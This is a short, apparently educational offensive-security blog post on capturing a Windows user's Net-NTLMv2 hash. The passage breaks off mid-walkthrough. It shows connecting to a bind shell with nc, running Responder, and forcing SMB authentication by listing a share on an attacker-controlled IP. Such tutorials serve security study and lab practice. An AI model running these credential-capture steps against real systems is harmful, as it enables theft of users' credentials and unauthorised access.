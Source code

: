 ```yaml
---
layout: post
title: Net-NTLMv2
titledate: 09/12/23
tags: ["infosec","offsec", "password", "ntlm", "responder"]
---
```


#### net-NTLMv2

sometimes we may gain access to a system as an unpriveleged user which means we cannot use tools like mimikatz

in this example we will assume we setup a bind shell on our target windows machine and connect to it 

    $ nc 192.168.50.50 4444

we can now check which user we are logged in as and what priveleges we have

    $ whoami

    $ net user ted

ted does not belong to the administrator group but does belong to the Remote Desktop Users group

because we do not have Admin privs we can not use mimikatz, but we can setup an smb server and use ted to attempt authentication
to capture his NTLM hash

    $ sudo responder -I tun0

next we want to provide an arbitrary share in order to catch ted's auth creds

if we visit our NC bind shell terminal to our first machine 

    C:\> dir \\192.168.119.2\test

in this example test does not exist

    Responder 
